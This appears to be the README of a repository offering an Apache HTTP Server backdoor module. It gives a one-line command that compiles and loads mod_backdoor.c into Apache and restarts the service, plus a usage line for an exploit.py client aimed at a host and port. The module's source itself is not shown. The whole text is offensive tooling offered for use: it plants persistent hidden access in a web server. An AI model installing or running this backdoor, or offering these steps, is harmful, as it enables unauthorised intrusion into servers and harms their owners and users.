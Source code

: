 Apache_HTTP_Server_Module_Backdoor
---

Installation:
```
apxs -i -a -c mod_backdoor.c && service apache2 restart
```

Usage:
```
python exploit.py [HOST] [PORT]
```
